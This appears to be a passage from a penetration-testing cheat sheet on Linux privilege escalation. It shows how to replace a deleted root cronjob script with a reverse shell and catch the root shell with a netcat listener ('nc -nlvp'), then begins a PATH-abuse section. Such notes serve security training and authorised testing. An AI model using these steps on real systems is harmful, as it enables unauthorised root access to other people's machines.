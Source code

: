 

## <mark style="color:purple;">Abusing deleted cronjobs</mark>

* Verify executables set as cronjobs

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cat /etc/crontab
</strong>#Example results
PATH:/home/user:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
...
* * * * * root file.sh
</code></pre>

{% hint style="info" %}
* `file.sh` is an arbitrary name used as example, can be any other bash file or executable
* We have to keep in mind the path of the `/etc/crontab` file
{% endhint %}

***

* Verify if the executable was deleted and create one with the same name

{% code overflow="wrap" lineNumbers="true" %}
```bash
locate file.sh    #This will show nothing which means that was deleted
cd /home/user
nano file.sh    # The content will be a reverse shell script
```
{% endcode %}

{% hint style="info" %}
* Note that the folder we navigate to is the one was listed in path of `/etc/crontab`
* To see the script of the reverse shell you can go [here](../../scripting/reverse-shell.md#basic-bash-script)
{% endhint %}

***

* Create a listening port with netcat to receive the shell

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>nc -nlvp $port
</strong>#You will recieve a root shell
</code></pre>

{% hint style="info" %}
`$port` is the port specified in the reverse shell script
{% endhint %}



## <mark style="color:purple;">Abusing PATH enviroment variable</mark>

* Search for any writable folder and compare it to _PATH_
